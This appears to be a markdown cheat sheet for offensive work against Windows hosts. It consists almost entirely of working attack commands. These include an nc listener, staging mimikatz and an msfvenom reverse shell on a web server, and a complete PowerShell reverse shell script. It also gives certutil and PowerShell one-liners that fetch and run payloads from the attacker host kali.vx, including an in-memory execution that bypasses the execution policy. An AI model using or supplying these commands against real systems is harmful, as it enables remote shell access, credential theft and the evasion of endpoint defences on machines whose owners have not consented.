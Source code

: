 # Setup Kali for connections

## Setup listener

```console
nc -nlvp 4444
```

- `-n` : numeric-only IP addresses, no DNS
- `-l` : listen mode, for inbound connects
- `-v` : verbose [use twice to be more verbose]
- `-p` : local port number (port numbers can be individual or ranges: lo-hi [inclusive])

## Prepare payload transfer

### Setup web server

```console
sudo python3 -m http.server 80 &> /dev/null &
```

### Prepare files to web server root

#### Mimikatz:

```console
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe .
```

#### Windows reverse shell TCP:

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=kali.vx LPORT=4444 -f exe -o reverse.exe
```

#### PowerShell-based reverse shell script:

`vi reverse.ps1` with below code:

```console
$ADDRESS='kali.vx'
$PORT=4444
$CLIENT = New-Object System.Net.Sockets.TCPClient($ADDRESS,$PORT)
$STREAM = $CLIENT.GetStream()
[byte[]]$bytes = 0..65535|%{0}
while(($i = $STREAM.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$DATA = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i)
$SENDBACK = (iex $DATA 2>&1 | Out-String )
$SENDBACK2 = $sendback + 'PS ' + (pwd).Path + '> '
$SENDBYTE = ([text.encoding]::ASCII).GetBytes($SENDBACK2)
$STREAM.Write($SENDBYTE,0,$SENDBYTE.Length)
$STREAM.Flush()
}
$CLIENT.Close()
```

# Execute payloads on Windows

## Execute Windows reverse shell TCP

### Using certutil

```console
certutil.exe /urlcache /f /split http://kali.vx/reverse.exe %USERPROFILE%\reverse.exe && %USERPROFILE%\reverse.exe
```

### Using PowerShell

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command (New-Object System.Net.WebClient).DownloadFile('http://kali.vx/reverse.exe','%USERPROFILE%\reverse.exe'); Start-Process %USERPROFILE%\reverse.exe
```

## Execute PowerShell-based reverse shell script

☝️ `Invoke-Expression` is useful if you don't want the payload to touch the disk, but it works for Powershell Scripts only

(i.e. `DownloadFile` of the reverse shell executable and try to run it with `Invoke-Expression` will not work)

```console
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command Invoke-Expression (New-Object System.Net.WebClient).DownloadString('http://kali.vx/reverse.ps1')
```
